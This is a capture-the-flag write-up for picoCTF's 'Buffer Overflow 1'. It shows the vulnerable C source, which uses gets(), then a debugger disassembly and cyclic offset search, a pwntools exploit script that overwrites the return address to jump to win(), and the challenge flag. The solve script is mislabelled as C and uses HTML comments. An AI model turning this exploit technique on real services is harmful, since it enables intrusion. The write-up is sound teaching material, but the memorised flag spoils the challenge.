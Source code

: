 # Buffer Overflow 1

## Overview:

Category: Binary Exploitation
Points: 200

## Description

Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the program. You can view source [here](./vuln.c). And connect with it using `nc saturn.picoctf.net 49618`

## Hints

1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.

## Approach

Lets look at the code:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

So we notice here that there is a dangerous `gets(buf);` function. Automatically we should be able to determine that we can overflow the buffer here. Now its just a matter of finding out the padding and what we want to change our return instruction pointer address to. And we know that the `win()` function will go ahead and output that flag for us.


## Attack

So we need to figure out a few things before we launch our attack.

1. The offset for our overflow.
2. The address of the win() function.

Launching pwngdb we can easily find the address of the win function:

```text
pwndbg> disassemble win
Dump of assembler code for function win:
   0x080491f6 <+0>:     endbr32
   0x080491fa <+4>:     push   ebp
   0x080491fb <+5>:     mov    ebp,esp
   0x080491fd <+7>:     push   ebx
   0x080491fe <+8>:     sub    esp,0x54
   0x08049201 <+11>:    call   0x8049130 <__x86.get_pc_thunk.bx>
   0x08049206 <+16>:    add    ebx,0x2dfa
   0x0804920c <+22>:    sub    esp,0x8
   0x0804920f <+25>:    lea    eax,[ebx-0x1ff8]
   0x08049215 <+31>:    push   eax
   0x08049216 <+32>:    lea    eax,[ebx-0x1ff6]
   0x0804921c <+38>:    push   eax
   0x0804921d <+39>:    call   0x80490c0 <fopen@plt>
   0x08049222 <+44>:    add    esp,0x10
   0x08049225 <+47>:    mov    DWORD PTR [ebp-0xc],eax
   0x08049228 <+50>:    cmp    DWORD PTR [ebp-0xc],0x0
   0x0804922c <+54>:    jne    0x8049258 <win+98>
   0x0804922e <+56>:    sub    esp,0x4
   0x08049231 <+59>:    lea    eax,[ebx-0x1fed]
   0x08049237 <+65>:    push   eax
   0x08049238 <+66>:    lea    eax,[ebx-0x1fd8]
   0x0804923e <+72>:    push   eax
   0x0804923f <+73>:    lea    eax,[ebx-0x1fa3]
   0x08049245 <+79>:    push   eax
   0x08049246 <+80>:    call   0x8049040 <printf@plt>
   0x0804924b <+85>:    add    esp,0x10
   0x0804924e <+88>:    sub    esp,0xc
   0x08049251 <+91>:    push   0x0
   0x08049253 <+93>:    call   0x8049090 <exit@plt>
   0x08049258 <+98>:    sub    esp,0x4
   0x0804925b <+101>:   push   DWORD PTR [ebp-0xc]
   0x0804925e <+104>:   push   0x40
   0x08049260 <+106>:   lea    eax,[ebp-0x4c]
   0x08049263 <+109>:   push   eax
   0x08049264 <+110>:   call   0x8049060 <fgets@plt>
   0x08049269 <+115>:   add    esp,0x10
   0x0804926c <+118>:   sub    esp,0xc
   0x0804926f <+121>:   lea    eax,[ebp-0x4c]
   0x08049272 <+124>:   push   eax
   0x08049273 <+125>:   call   0x8049040 <printf@plt>
   0x08049278 <+130>:   add    esp,0x10
   0x0804927b <+133>:   nop
   0x0804927c <+134>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x0804927f <+137>:   leave
   0x08049280 <+138>:   ret
End of assembler dump.
pwndbg>
```

We can see here that the first address (AKA, the address of the function) is here at `0x080491f6`.
Now to find the offset. 

```text
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────
*EAX  0x41
*EBX  0x6161616a ('jaaa')
*ECX  0xffffce1c ◂— 0x13bc2000
*EDX  0x1
*EDI  0xf7ffcba0 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049350 (__libc_csu_init) ◂— endbr32 
*EBP  0x6161616b ('kaaa')
*ESP  0xffffcea0 ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
*EIP  0x6161616c ('laaa')
```

Using `cyclic 100` as our input, we can identify where we need to overwrite to using the letters that are stored in the EIP.

```text
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

Now knowing the address we need to reach and the padding required, we can write a solve script:

```c
from pwn import *

conn = remote("saturn.picoctf.net", 49618)
<!-- padding required to overwrite return pointer -->
overflow_num = 44
<!-- address of win() -->
win = 0x080491f6

payload = b'A' * overflow_num 
payload += (p32(win))

conn.sendlineafter(b'Please enter your string: ' ,payload)
print("flag:",conn.recvall().split(b"\n")[-1].decode())
```

Note: p32 is essentially correcting the input of the address into little endian. for example: 
`0x080491f6` -> `"\xf6\x91\x04\x08"`


```text
$ python solve.py
    [+] Opening connection to saturn.picoctf.net on port 49618: Done
    [+] Receiving all data: Done (101B)
    [*] Closed connection to saturn.picoctf.net port 49618
    flag: picoCTF{addr3ss3s_ar3_3asy_b15b081e}
```

## Flag

picoCTF{addr3ss3s_ar3_3asy_b15b081e}